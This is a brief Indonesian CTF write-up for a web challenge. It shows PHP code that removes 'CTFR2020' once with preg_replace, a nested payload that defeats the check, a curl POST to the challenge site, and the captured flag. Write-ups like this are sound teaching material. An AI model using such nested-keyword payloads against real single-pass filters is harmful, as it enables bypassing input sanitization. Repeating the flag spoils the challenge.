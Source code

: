Maksud dari title diatas, Kalian cukup Copy Paste apa yang disuruh input. Setelah itu dapat Flag nya deh :D

Link : https://web.ctf.rasyidmf.com/chal15/

```
<?php
include 'flag.php';
    $data = @$_POST['data'];
    if ($data != "") {
        $res = preg_replace("/CTFR2020/", "", $data);
        if ($res == "CTFR2020") {
            echo "Here is your flag : " . $flag . "<br><br>";
        } else {
            echo "Inputannya harus sesuai dong<br><br>";
        }
    }
?>
```

Bug 
```
$res = preg_replace("/CTFR2020/", "", $data);
```

Payload 
```
CTFRCTFR20202020
curl -X POST -d "data=CTFRCTFR20202020" https://web.ctf.rasyidmf.com/chal15/ | grep CTFR
```

Flag
```
CTFR{pr3g_r3pl4c3_3xpl01t_1s_aw3s0m3}
```
